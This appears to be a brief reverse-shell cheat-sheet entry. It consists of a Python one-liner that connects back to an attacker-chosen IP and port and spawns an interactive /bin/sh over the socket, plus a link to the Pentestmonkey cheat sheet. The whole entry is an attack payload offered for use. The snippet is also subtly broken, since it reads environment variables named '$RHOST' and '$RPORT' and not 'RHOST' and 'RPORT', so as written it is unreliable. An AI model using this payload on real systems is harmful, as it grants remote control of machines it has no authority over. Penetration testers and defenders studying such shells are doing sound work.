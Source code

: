 # Python

```
$ export RHOST="<IP>";export RPORT=<PORT>;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("$RHOST"),int(os.getenv("$RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## References

- [Reverse Shell Cheatsheet Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
